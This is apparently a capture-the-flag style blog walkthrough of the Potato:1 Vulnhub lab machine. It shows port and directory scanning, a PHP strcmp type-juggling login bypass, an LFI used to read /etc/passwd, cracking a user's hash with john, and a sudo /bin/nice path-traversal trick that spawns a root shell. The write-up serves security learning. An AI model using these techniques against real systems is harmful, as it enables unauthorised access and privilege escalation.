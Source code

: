```yaml
---
date: 2020-09-15 01:58:29
layout: post
title: "Potato 1 Vulnhub Walkthrough"
subtitle:
description: Potato:1 is a boot2root machine available on Vulnhub. This machine is good for beginners.
image: /assets/img/uploads/potato/potato.jpg
optimized_image: /assets/img/uploads/potato/potato-optimized.jpg
category: walkthrough
tags: vulnhub boot2root
author: madhavmehndiratta
paginate: false
keywords: potato 1 writeup, potato 1 vulnhub, potato 1 walkthrough, potato vulnhub walkthrough, potato writeup, vulnhub potato walkthrough, potato writeup, infosec articles
---
```


Today I will be sharing a walkthrough of Potato:1 which is another boot to root machine available on Vulnhub. This includes bypassing a php login form and then exploiting a LFI to get a shell on the machine. This is a beginner machine and good for those who are just starting with Vulnhub. I have added the IP to my hosts file, So Let's Begin!

```r
┌──(madhav㉿kali)-[~/Documents/vulnhub/potato]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
192.168.1.44    potato.local
```

## Enumeration

I started the enumeration by running a full port scan using nmap to look for open ports and default scripts.

```r
┌──(madhav㉿kali)-[~/Documents/vulnhub/potato]                                                                                                           [2/22]
└─$ nmap -p- -sC -sV -oN nmap/all-ports potato.local
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-13 10:41 IST
Nmap scan report for potato.local (192.168.1.44)
Host is up (0.0035s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Potato company
2112/tcp open  ftp     ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--   1 ftp      ftp           901 Aug  2 19:33 index.php.bak
|_-rw-r--r--   1 ftp      ftp            54 Aug  2 18:17 welcome.msg
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.57 seconds
```
We can see an Apache web server running on port 80 and a ProFTPD service running on port 2112. I started to enumerate FTP first because I saw that anonymous FTP login was allowed.

```r
┌──(madhav㉿kali)-[~/Documents/vulnhub/potato]
└─$ ftp potato.local 2112

Connected to potato.local.220 ProFTPD Server (Debian) [::ffff:192.168.1.44]
Name (potato.local:madhav): anonymous
331 Anonymous login ok, send your complete email address as your password
Password:
230-Welcome, archive user anonymous@192.168.1.4 
230-
230-The local time is: Sun Sep 13 05:12:15 2020
230-
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls
200 PORT command successful
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 ftp      ftp           901 Aug  2 19:33 index.php.bak
-rw-r--r--   1 ftp      ftp            54 Aug  2 18:17 welcome.msg
226 Transfer complete
```

After logging in, I found an index.php backup file and downloaded it to my local machine.

```r
ftp> get index.php.bak
local: index.php.bak remote: index.php.bak
200 PORT command successful
150 Opening BINARY mode data connection for index.php.bak (901 bytes)
226 Transfer complete
901 bytes received in 0.00 secs (483.7179 kB/s)
```

After reading the <b>index.php.bak,</b> I found that it was the code for some login page, So I went to port 80 for further enumeration.

<img src="/assets/img/uploads/potato/port80.png">

We see nothing but just an image of potato. So next I started a gobuster scan to look for hidden directories.

```r
┌──(madhav㉿kali)-[~/Documents/vulnhub/potato]
└─$ gobuster dir -u http://potato.local -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://potato.local
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt
[+] Timeout:        10s
===============================================================
2020/09/13 10:40:23 Starting gobuster
===============================================================
/admin (Status: 301)
/potato (Status: 301)
/server-status (Status: 403)
===============================================================
2020/09/13 10:42:39 Finished
===============================================================
```
I found an admin directory where there is a login page.

<img src="/assets/img/uploads/potato/login.png">

I tried logging in with some random passwords but was not successful. So now let's have a look at the <b>index.php.bak</b> we found on FTP server.

<img src="/assets/img/uploads/potato/source.png">

In this we can see that the script uses <b>strcmp</b> function to compare the username supplied with <b>admin</b> and the password supplied with <b>$pass.</b> I found an exploit for the same scenario on <a href="https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf">OWASP.</a>

<img src="/assets/img/uploads/potato/exploit.png">

I recommend spending a few minutes reading about "PHP Type Juggling" from <a href="https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf">here.</a> I used Burp Suite to intercept the login request and changed the password field to an array.

<img src="/assets/img/uploads/potato/burp.png">

After logging in, we see a message which tells us to visit the dashboard page.

<img src="/assets/img/uploads/potato/admin.png">

There are a lot of things which can be tried here, after some enumeration, I found a LFI in the logs page. 

<img src="/assets/img/uploads/potato/dashboard.png">

It has a very simple functionality, It just retrieves the log files we request.

<img src="/assets/img/uploads/potato/logs.png">

I selected a log file and intercepted the request using Burp Suite. 

<img src="/assets/img/uploads/potato/burpsuite.png">

This time, instead of log1.txt, I retrieved <b>/etc/passwd.</b>

<img src="/assets/img/uploads/potato/passwd.png">

Next, I saved the password hash for user <b>webadmin</b> into a text file and used john to crack the password.

```r
┌──(madhav㉿kali)-[~/Documents/vulnhub/potato]
└─$ john pass.txt 
Created directory: /home/madhav/.john
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
dragon           (?)
1g 0:00:00:00 DONE 2/3 (2020-09-13 11:14) 25.00g/s 9600p/s 9600c/s 9600C/s 123456..larry
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Now we login into the machine via ssh using username <b>webadmin</b> and password <b>dragon.</b>

```r 
┌──(madhav㉿kali)-[~/Documents/vulnhub/potato]
└─$ ssh webadmin@potato.local
The authenticity of host 'potato.local (192.168.1.44)' cant be established.
ECDSA key fingerprint is SHA256:o2CcJVsxiCwKNOeMfbBTtdh0LpP1nTtNN53rYTYQn18.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'potato.local,192.168.1.44' (ECDSA) to the list of known hosts.
webadmin@potato.locals password:
webadmin@serv:~$ ls
user.txt
webadmin@serv:~$ cat user.txt 
TGUgY29udHLDtGxlIGVzdCDDoCBwZXUgcHLDqHMgYXVzc2kgcsOpZWwgcXXigJl1bmUg
```

## Root Shell

Obtaining a root shell is easy and just requires you to think out of the box. First, I checked if we can run any commands as sudo. 

```r
webadmin@serv:~$ sudo -l
[sudo] password for webadmin: 
Matching Defaults entries for webadmin on serv:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on serv:
    (ALL : ALL) /bin/nice /notes/*
```

I found that we can run all the files in the <b>/notes</b> directory using <b>/bin/nice.</b> Then I checked the <b>/notes</b> and found that we do not have read or write permission on this directory.

```r
webadmin@serv:~$ cd /notes/
webadmin@serv:/notes$ ls -lah
total 16K
drwxr-xr-x  2 root root 4.0K Aug  2 19:11 .
drwxr-xr-x 21 root root 4.0K Aug  2 19:10 ..
-rwx------  1 root root   11 Aug  2 19:11 clear.sh
-rwx------  1 root root    8 Aug  2 19:11 id.sh
```

I went back to the home directory and created a script which executes <b>/bin/bash</b> and then this script using <b>/bin/nice</b> to get root.  

```r
webadmin@serv:~$ echo "/bin/bash" >> root.sh
webadmin@serv:~$ chmod +x root.sh
webadmin@serv:~$ sudo /bin/nice /notes/../home/webadmin/root.sh 
root@serv:/home/webadmin# id
uid=0(root) gid=0(root) groups=0(root)
```
And now we can read the root flag (The final flag is also base64 encoded xD)

```r
root@serv:/home/webadmin# cat /root/root.txt 
bGljb3JuZSB1bmlqYW1iaXN0ZSBxdWkgZnVpdCBhdSBib3V0IGTigJl1biBkb3VibGUgYXJjLWVuLWNpZWwuIA==
```

That’s it! Thanks for reading. Stay tuned for similar walkthroughs and much more coming up in the near future!
If you have any queries, you can contact me <a href="/contact">here.</a>

NOTE: The awesome artwork used in this article was created by <a href="https://dribbble.com/bdalke">Becca Dalke.</a>
